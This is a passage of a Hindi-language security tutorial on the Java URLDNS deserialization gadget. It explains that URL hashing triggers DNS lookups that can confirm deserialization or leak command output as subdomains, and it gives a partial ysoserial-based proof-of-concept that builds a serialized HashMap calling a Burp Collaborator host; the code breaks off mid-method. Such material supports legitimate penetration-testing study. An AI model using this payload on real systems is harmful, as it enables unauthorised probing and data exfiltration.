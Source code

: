 ```java
h += protocol.hashCode();

// Generate the host part.
InetAddress addr = getHostAddress(u);
[   ...   ]
```
आप देख सकते हैं कि डोमेन के लिए `getHostAddress` का निष्पादन किया जाता है, **DNS query लॉन्च करते हुए**।

इसलिए, इस क्लास का **दुरुपयोग** किया जा सकता है ताकि **DNS query लॉन्च** की जा सके यह **प्रदर्शित** करने के लिए कि **deserialization** संभव है, या यहां तक कि **जानकारी का बाहर निकालना** (आप कमांड निष्पादन के आउटपुट को सबडोमेन के रूप में जोड़ सकते हैं)।

### URLDNS पेलोड कोड उदाहरण

आप [ysoserial से URDNS पेलोड कोड यहाँ पा सकते हैं](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)। हालांकि, इसे कोड करने का तरीका समझने के लिए आसान बनाने के लिए मैंने अपना खुद का PoC बनाया है (ysoserial से प्राप्त एक के आधार पर):
```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
public static void GeneratePayload(Object instance, String file)
throws Exception {
//Serialize the constructed payload and write it to the file
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
}
public static void payloadTest(String file) throws Exception {
//Read the written payload and deserialize it
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
Object obj = in.readObject();
System.out.println(obj);
in.close();
}

public static void main(final String[] args) throws Exception {
String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
HashMap ht = new HashMap(); // HashMap that will contain the URL
URLStreamHandler handler = new SilentURLStreamHandler();
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

// During the put above, the URL's hashCode is calculated and cached.
// This resets that so the next time hashCode is called a DNS lookup will be triggered.
final Field field = u.getClass().getDeclaredField("hashCode");
field.setAccessible(true);
field.set(u, -1);

```